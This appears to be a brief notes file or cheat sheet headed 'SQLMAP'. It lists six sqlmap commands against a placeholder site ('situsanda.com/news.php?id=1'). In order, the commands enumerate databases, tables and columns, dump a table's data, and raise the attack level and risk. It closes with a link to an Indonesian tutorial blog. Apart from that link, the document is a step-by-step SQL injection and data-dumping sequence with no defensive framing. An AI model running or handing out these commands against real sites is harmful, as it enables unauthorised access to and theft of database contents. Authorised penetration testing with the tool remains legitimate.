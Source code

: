 # SQLMAP

1. situsanda.com/news.php?id=1
2. python2 sqlmap.py "situsanda.com/news.php?id=1" --dbs
3. python2 sqlmap.py "situsanda.com/news.php?id=1" --tables -D situsanda
4. python2 sqlmap.py "situsanda.com/news.php?id=1" --columns -D namadatabase -T namatabel
5. python2 sqlmap.py "situsanda.com/news.php?id=1" --dump -D namadatabase -T namatabel
6. python2 sqlmap.py "situsanda.com/news.php?id=1" --level=5 --risk=3 --dbs

Reference : 
1. https://sangtopihitam.blogspot.com/2020/02/tutorial-install-sqlmap-dan-cara.html
